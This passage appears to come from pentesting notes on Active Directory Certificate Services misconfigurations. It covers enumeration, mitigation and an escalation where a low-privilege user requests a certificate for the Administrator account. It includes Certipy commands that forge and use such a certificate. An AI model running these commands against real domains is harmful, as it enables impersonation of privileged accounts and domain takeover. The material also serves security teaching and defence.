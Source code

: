 ## To Identify:
Use Certipy or Certify to enumerate templates and check for:
- `Certificate Request Agent` in EKUs
- `ENROLLEE_SUPPLIES_SUBJECT = True`
- Who can enroll
- Who is listed as Enrollment Agents 
```bash
certipy-ad find -u user -p pass -dc-ip <dc-ip>
```

## Mitigation:
- Disable or restrict use of Certificate Request Agent templates.
- Only allow high-trust users to be Enrollment Agents.
- Monitor template use and restrict ENROLLEE_SUPPLIES_SUBJECT.

---

# ESC2 – Vulnerable Certificate Template with Dangerous Flags
Some templates are dangerously configured to allow any authenticated user to supply subject info and request certificates that allow for authentication — enabling identity impersonation.

## Requirements:
- Certificate template has:
  - `ENROLLEE_SUPPLIES_SUBJECT` flag set.
  - `Client Authentication` EKU.
- Any authenticated user can:
  - Enroll in the template.
  - Specify the `Subject` or `SAN` fields (e.g., UPN of a Domain Admin).

## Impact:
A low-privilege user can request a certificate for a privileged account (e.g., Administrator), impersonate them, and gain access to services supporting certificate-based auth (like LDAP or Kerberos via PKINIT).

## Example:
### Certipy:
```bash
# Request a certificate for Administrator
certipy-ad req -u lowpriv -p pass123 \
  -ca 'ca.domain.local\CA-NAME' \
  -template 'VulnerableUserTemplate' \
  -upn 'Administrator@domain.local' \
  -pfx administrator.pfx

# Authenticate using the forged cert
certipy-ad auth -pfx administrator.pfx
```
